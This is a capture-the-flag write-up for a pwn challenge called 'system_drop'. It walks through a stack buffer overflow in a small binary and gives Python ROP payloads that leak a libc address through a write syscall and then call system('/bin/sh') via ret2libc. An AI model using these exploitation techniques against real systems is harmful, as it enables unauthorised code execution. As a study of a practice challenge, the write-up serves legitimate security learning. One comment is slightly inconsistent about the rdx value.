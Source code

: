 # system_drop

This was second pwn challenge and probably a good one, as in all of the challenges were good, but this one was kinda....good for newbies, I guess.

# Vulnerability

This one had a very obvious vulnerability i.e. stack overflow:-

```C
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf[32]; // [rsp+0h] [rbp-20h] BYREF

  alarm(0xFu);
  read(0, buf, 0x100uLL);
  return 1;
}
```

The protection was just the `NX Enabled`, PIE was disabled as well.

# Exploitation

Well, the problem that arises here, obvious is there's no function which is already present in the binary which we can use to leak the LIBC address, so peformigng ret2libc seemed a bit out of hand, up until you see that there's a `syscall; ret` instruction available, since the `syscall` instruction is there, it very well hinted towards doing a `write` syscall to leak, but we had a problem which was about the control of the `rax`, which turned out to be a problem since there was no direct way to control the `rax` with the gadgets, but to my surprise during the return pointer overwrite the `rax` value was set to 0x1, this tackled the problem of setting the `rax` for the `write` syscall.

The `write` syscall ROP chain was like:-

```py
pop_rdi = 0x00000000004005d3
syscall = 0x000000000040053b
pop_rsi = 0x00000000004005d1


payload = b"A"*40
payload += p64(pop_rsi)
payload += p64(elf.got['read'])
payload += p64(0)
payload += p64(pop_rdi)
payload += p64(1)
payload += p64(syscall)
payload += p64(elf.symbols['main'])

```


This ROP chain was:

```
pop_rsi = read@got
r15 = 0x0
rdi = 1
syscall - > write(1, rea@got, rdx=100) rdx value was already 1
main -> jump to main
```

Now, then we get the LIBC leak, then we can do the ret2libc:-

```py
payload = b"A"*40
payload += p64(0x0000000000400416)
payload += p64(pop_rdi)
payload += p64(next(libc.search(b"/bin/sh\x00")))
payload += p64(0x0000000000400416)
payload += p64(libc.symbols['system'])
```

> The address `0x0000000000400416` points to the `ret` instruction is used to resolve the stack alignment issue.

Running the exploit, we get the flag: `CHTB{n0_0utput_n0_pr0bl3m_w1th_sr0p}`
